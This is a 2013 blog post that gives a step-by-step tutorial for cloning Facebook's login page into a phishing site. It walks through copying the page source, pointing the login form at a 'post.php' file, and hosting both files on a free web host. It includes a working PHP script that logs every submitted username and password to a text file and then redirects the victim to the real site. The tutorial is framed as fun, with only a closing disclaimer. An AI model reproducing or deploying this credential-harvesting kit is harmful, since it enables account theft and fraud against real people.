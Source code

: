```yaml
---
layout: post
title: "PHISHING"
date: 2013-05-31 15:50
comments: true
categories: 
author: hitech_gosain
---
```

Before we actually start phishing………. here is a brief introduction about what phishing is…

Phishing is a scamming method used to get personal information.. .

i.e. the act of acquiring private or sensitive data from personal computers for use in fraudulent activities.



{% img http://www.hoax-slayer.com/images/phishing-scammer.jpg %}

Here are steps to have some fun:-

1. Open http://www.facebook.com on any net browser .

2. Right click on the blank space of the login page, click on ‘view page source’ option.

3. A screen filled with codes will appear.

4. Now press ctrl+a and copy the whole source to notepad.

5. Now press ctrl+f and search for word ‘action’ in the source.

6. Replace the selected text written in quotes with ‘post.php’  inthe above image .

action=”https://www.facebook.com/login.php?login_attempt=1&#8243;

After replacement :

action=”post.php”

7. Now save the file with ‘.html’ extension. For example : facebook.html

8. Copy paste the following script to notepad, edit the contents of 2nd line in the script

“header(‘Location:Website to phish’);”

Enter the name of the website you wish to phish , in our case http://www.facebook.com

After replacement: “header(‘Location: http://www.facebook.com);” , and save file with the name ‘post’ and .php extension.

?php
header (‘Location:Website to Phish’);
$handle = fopen(“usernames.txt”, “a”);
foreach($_POST as $variable => $value) {
   fwrite($handle, $variable);
   fwrite($handle, “=”);
   fwrite($handle, $value);
   fwrite($handle, “\r\n”);
}
fwrite($handle, “\r\n”);
fclose($handle);
exit;
?>

9. Now register to any free web hosting site. For example : www.my3gb.com

10. Upload the two files created above, one with .html extension(as per our example : facebook.html) and the other post.php

on your account on free web hosting site.

11. If you register on my3gb.com , to see your uploaded files click on ‘file manager’.

12. Now right click on file with .html extension(facebook.html) that you uploaded shortly, and select “copy link location”. Then paste the link on the address bar in new tab.

13. A page similar to facebook login page will load , but the difference will only be seen in the address bar.

take a look at the address bar it says “neophytes.my3gb.com/facebook.html”, a genuine facebook page will have “www.facebook.com” in the address bar.

After victim enters his/her username and password , this is what he/she will see.

A new file usernames.txt is created automatically when someone logs on the phishing page you just created. Usernames.txt contains victim’s username and password. You can see the new file usernames.txt by refreshing the page.

P.S. – my3gb.com will delete your account within 24hrs after u try the above phishing….

So the above trick is just for you to see one aspect of Hacking….

Do not use it for malicious purposes.



